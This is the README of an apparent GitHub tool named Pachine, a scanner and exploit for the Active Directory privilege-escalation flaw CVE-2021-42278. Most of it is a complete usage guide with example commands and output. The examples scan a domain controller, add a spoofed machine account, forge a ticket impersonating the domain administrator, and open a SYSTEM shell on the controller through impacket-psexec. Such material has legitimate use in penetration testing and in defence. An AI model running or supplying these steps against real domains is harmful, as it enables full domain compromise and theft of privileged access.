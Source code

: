 # Pachine

Python implementation for CVE-2021-42278 (Active Directory Privilege Escalation).

## Installation

```bash
$ pip3 install impacket
```

## Usage

```
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]

Pachine - CVE-2021-42278 Scanner & Exploit

positional arguments:
  [domain/]username[:password]
                        Account used to authenticate to DC.

optional arguments:
  -h, --help            show this help message and exit
  -scan                 Scan the DC
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -impersonate IMPERSONATE
                        target username that will be impersonated (through S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name NEW-COMPUTER-NAME$
                        Name of new computer. If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -debug                Turn DEBUG output ON
  -method {SAMR,LDAPS}  Method of adding the computer. SAMR works over SMB. LDAPS has some certificate requirements and isn't always available.
  -port {139,445,636}   Destination port to connect to. SAMR defaults to 445, LDAPS to 636.

LDAP:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP. If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers,DC=test,DC=local
                        Group to which the account will be added. If omitted, CN=Computers will be used,

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on account parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-host hostname     FQDN of the domain controller to target.
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.specified in the account parameter will be used
                                                                                                                                                                                                                                                              
```

### Demonstration

![](./imgs/attack.png)

### Examples

#### Scanning

To scan a domain controller, use the `-scan` option. Supply the hostname of the DC with the `-dc-host` option.
If you cannot resolve the hostname, you can also supply the IP of the DC with `-dc-ip`. At least `-dc-host` must be supplied.

```bash
$ python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Domain controller dc.predator.local is most likely vulnerable
```

#### Exploitation

```bash
$ python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Added machine account dc with password qwx1TwIGRNcwsBptfDfyw9wubnVBSVij.
[*] Got TGT for dc@PREDATOR.LOCAL
[*] Changed machine account name from dc to DESKTOP-XS5FCF1Y$
[*] Requesting S4U2self
[*] Got TGS for administrator@predator.local for dc@PREDATOR.LOCAL
[*] Changing sname from dc@PREDATOR.LOCAL to cifs/dc.predator.local@PREDATOR.LOCAL
[*] Changed machine account name from DESKTOP-XS5FCF1Y$ to dc
[*] Saving ticket in administrator@predator.local.ccache
```

##### Using the TGS

```bash
$ # Set and verify the CCACHE
$ export KRB5CCNAME=$PWD/administrator@predator.local.ccache
$ klist
Ticket cache: FILE:/opt/Pachine/administrator@predator.local.ccache
Default principal: administrator@predator.local

Valid starting       Expires              Service principal
12/13/2021 23:45:19  12/14/2021 09:45:19  cifs/dc.predator.local@PREDATOR.LOCAL
	renew until 12/14/2021 23:45:19
$ # Use Impacket's Psexec. This will work for 'cifs'
$ impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.predator.local.....
[*] Found writable share ADMIN$
[*] Uploading file GPZNUSse.exe
[*] Opening SVCManager on dc.predator.local.....
[*] Creating service FBle on dc.predator.local.....
[*] Starting service FBle.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Details
Pachine (PAC + Machine) is a Python exploit implementation for [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278). I highly recommend reading Charlie Clark's ([@exploitph](https://twitter.com/exploitph))  great [blog post](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) for technical details on CVE-2021-42278.

## Authors
- [@ly4k](https://github.com/ly4k)

## Credits
- [@cube0x0](https://github.com/cube0x0)'s C# [implementation](https://github.com/cube0x0/noPac)
- [Charlie Clark @exploitph](https://twitter.com/exploitph)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## References
- [exploit.ph: CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
